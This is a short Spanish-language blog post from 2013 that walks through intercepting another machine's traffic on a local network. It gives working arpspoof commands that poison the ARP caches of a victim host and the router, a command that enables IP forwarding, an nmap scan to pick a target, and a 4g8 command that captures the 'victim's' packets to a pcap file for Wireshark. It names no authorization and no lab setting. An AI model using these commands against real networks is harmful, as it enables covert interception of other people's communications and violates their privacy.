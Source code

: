 ```yaml
---
layout: post
title: "4g8"
date: 2013-07-13 16:48
comments: true
categories: 
---
```

Capturar paquetes de equipos de una red. Previamente preparar el equipo con los pasos previos para el envenenamiento arp lanzando en dos terminales y sin cerrarlas hasta terminar la captura:

>\# arpspoof -i eth0 -t 192.168.1.12 192.168.1.1

>\# arpspoof -i eth0 -t 192.168.1.1 192.168.1.12

El “12” el sniffado, el “1” el router y el -i … la red. El paquete que contiene arpspoof es dsniff. Activar forwarding para que los paquetes vayan a su verdadero dueño:

>\# echo 1 > /proc/sys/net/ipv4/ip_forward

Para conocer los parámetros [ips y MACs] que luego tendremos que entrar en 4g8 lanzar:

>\# nmap 192.168.1.0/24

Para conocer los equipos de la red. Una vez escogida la victima, lanzar 4g8:

>\# 4g8 -i eth0 -g 192.168.1.1 -G 64:69:0C:87:A8:DC -s 192.168.1.12 -S 00:19:01:54:F5:1F -w dump.pcap

-g (la ip del router)

-G (la MAC del router)

-s (la ip de la victima)

-S (la MAC de la victima)

-w (el archivo donde guardar las capturas)

Para el análisis del archivo dump.pcap usar wireshark.

